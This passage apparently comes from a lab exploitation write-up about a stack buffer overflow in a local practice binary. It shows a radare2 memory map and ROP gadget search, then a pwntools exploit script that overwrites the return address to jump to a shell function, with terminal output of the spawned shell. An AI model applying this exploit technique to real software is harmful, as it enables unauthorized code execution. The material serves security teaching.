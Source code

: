 ```
0x0000000000400000 # 0x0000000000401000 - usr     4K s -r-x /home/lab/asl/example_1 /home/lab/asl/example_1 ; map.home_lab_asl_example_1._r_x
0x0000000000600000 # 0x0000000000602000 - usr     8K s -rw- /home/lab/asl/example_1 /home/lab/asl/example_1 ; map.home_lab_asl_example_1._rw
0x00007ffff7dd3000 # 0x00007ffff7dfc000 * usr   164K s -r-x /lib/x86_64-linux-gnu/ld-2.27.so /lib/x86_64-linux-gnu/ld-2.27.so ; map.lib_x86_64_linux_gnu_ld_2.27.so._r_x
0x00007ffff7ff8000 # 0x00007ffff7ffb000 - usr    12K s -r-- [vvar] [vvar] ; map.vvar_._r
0x00007ffff7ffb000 # 0x00007ffff7ffc000 - usr     4K s -r-x [vdso] [vdso] ; map.vdso_._r_x
0x00007ffff7ffc000 # 0x00007ffff7ffe000 - usr     8K s -rw- /lib/x86_64-linux-gnu/ld-2.27.so /lib/x86_64-linux-gnu/ld-2.27.so ; map.lib_x86_64_linux_gnu_ld_2.27.so._rw
0x00007ffff7ffe000 # 0x00007ffff7fff000 - usr     4K s -rw- unk0 unk0
0x00007ffffffde000 # 0x00007ffffffff000 - usr   132K s -rw- [stack] [stack] ; map.stack_._rw
0xffffffffff600000 # 0xffffffffff601000 - usr     4K s ---x [vsyscall] [vsyscall] ; map.vsyscall_.___x
[0x7ffff7dd4090]> e search.from=0x0000000000400000
[0x7ffff7dd4090]> e search.to=0x0000000000401000
[0x7ffff7dd4090]> 
```
After defining the space, we can search for that ret:
```
0x00400490]> /R ret
  0x00400440               0b20  or esp, dword [rax]
  0x00400442             004885  add byte [rax - 0x7b], cl
  0x00400445         c07402ffd0  sal byte [rdx + rax - 1], 0xd0
  0x0040044a           4883c408  add rsp, 8
  0x0040044e                 c3  ret
```
And, no mistery, the exploit comes as simple as that:
```py 
from pwn import *

unused_shell_func = 0x00400577
ret = 0x0040044e

buf=  b'A' * 208
buf += b'\x42' * 8
buf += p64(ret)
buf += p64(unused_shell_func)

sys.stdout.buffer.write(buf)
```
And boom, the shell :)
```
lab@lab-VirtualBox:~/asl$ (python3 exploit1.py ; cat; ) | ./example_1 
id
Enter your name:Hi there AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBN@ !!
id
uid=1000(lab) gid=1000(lab) groups=1000(lab),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```
